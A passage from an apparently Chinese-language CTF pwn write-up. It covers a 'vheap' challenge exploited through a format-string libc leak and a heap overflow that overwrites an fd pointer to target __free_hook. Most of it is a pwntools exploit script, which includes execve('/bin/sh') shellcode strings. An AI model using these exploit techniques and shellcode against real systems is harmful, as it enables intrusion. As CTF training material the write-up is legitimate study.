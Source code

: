 ```python
code2 = code2.ljust(0x100, "\x00")
p.sendafter(b"[+] Welcome to MVA, input your code now :\n", code2)

p.interactive()
```

## vheap(堆溢出修改fd)

![image-20220517135611355](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220517135611355.png)

题目开始就有格式化字符串可以泄露libc

![image-20220517135704229](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220517135704229.png)

然后可以在bss段上存2个内容页

![image-20220517135745313](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220517135745313.png)

然后就是最多读9条命令，正常的VMpwn执行流程，难度比较入门

![image-20220517135918817](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220517135918817.png)

![image-20220517135950632](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220517135950632.png)

固定的40个字节读入，没有UAF但可以堆溢出修改fd

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./vheap')
# p = remote("123.57.69.203","5320")
elf = ELF("./vheap")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
pay = '%20$p'
sla("first,tell me your name.",pay)
p.recvuntil("welcome:")
libc_base = int(p.recv(14),16)-231-libc.sym['__libc_start_main']
lg('libc_base',libc_base)
free_hook = libc_base+libc.sym['__free_hook']
one = libc_base+0x4f302
sla("How many pieces of data?",'2')
s('a'*0x18+p64(0x70)+p64(free_hook))
```